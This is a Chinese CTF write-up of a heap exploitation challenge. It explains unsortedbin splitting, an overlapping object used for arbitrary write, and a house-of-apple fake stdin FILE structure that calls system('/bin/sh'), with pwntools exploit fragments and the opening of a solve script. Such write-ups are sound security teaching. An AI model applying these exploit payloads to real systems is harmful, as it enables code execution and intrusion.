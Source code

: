 ```python

    name = b'J'*0x30
    content = b''
    configs.append(new_cfg(1, name, content, 0)) #扩容

    name = b'F'*0x30
    content = b''
    configs.append(new_cfg(3, name, content, 0)) #delete

    # split block, leak again
    name = b''
    content = b''
    configs.append(new_cfg(4, name, content, 0))
```
因为上一步申请了很多大的 unsortedbin，所以分割后很自然的就有不同的 unsirtedbin 存在，此时都不需要计算分割的位置，free 的时候让 ptmalloc 帮我们链上 heap 即可
### 构造任意写
> 所谓抽象，就是把一个函数的功能想象成一个汇编指令类似的东西，而该指令操作的内存也是由自己想象的

前面的操作结束后，我们的内存布局成了这样
![](https://raw.githubusercontent.com/4ak5ra/image/main/屏幕截图_20250413_100003.png) 

last_update_obj 上方的对象因为扩容都被释放，这就导致了我们可以再次申请回覆盖 last_update_obj 指向的对象再配合 update 功能达成任意地址写
```python
    configs = []
    name = b'aaa'
    content = b'a'*32+p64(_STDIN_chain-0x8)+b'a'*23 #在解析的时候申请这个0x50的堆块
    configs.append(new_cfg(1, name, content, 0))
```

然后随便找个地方把伪造的 file 的 payload 写进去，因为是低版本所以直接用 update 往 stdin._chain 后方放入伪造的 fil 的地址 e 实现 house of apple 的攻击(打 hook 更快)
```python
    another_heap = heap+0x12470
    fake_stdin = heap+0x12380 
    name = b'/bin/sh\x00'+p64(0) + p64(0x10)+p64(system_addr)+p64(1)+p64(0x100)+p64(0)*14+p64(another_heap)+p64(0)+p64(0)+p64(0)+p64(1)+p64(0)+p64(0)+p64(_IO_wfile_jumps+0x30) #fake_stdin

    content = p64(510)+p64(0)+p64(0)+p64(510)+p64(530)+p64(0)+p64(0)+p64(0)+p64(0)*20+p64(fake_stdin)
    configs.append(new_cfg(2, name, content, 0))
```

## wp
```python
from pwn import *
from pwncli import *
#context(os='linux', arch='mips',endian="little", log_level='debug')
context(os='linux', arch='amd64', log_level='debug')
# context(os='linux', arch='amd64')
context.terminal = ['tmux', 'sp', '-h']

file_name = "./main"
elf=ELF(file_name)
url = ""
port = 0
libc=0
def debug(filename = file_name,b_slice=[],is_pie=0,is_start = 1):
    global ph
    b_string = ""
    if is_pie:
        for i in b_slice:
            b_string += f"b *$rebase({i})\n"
```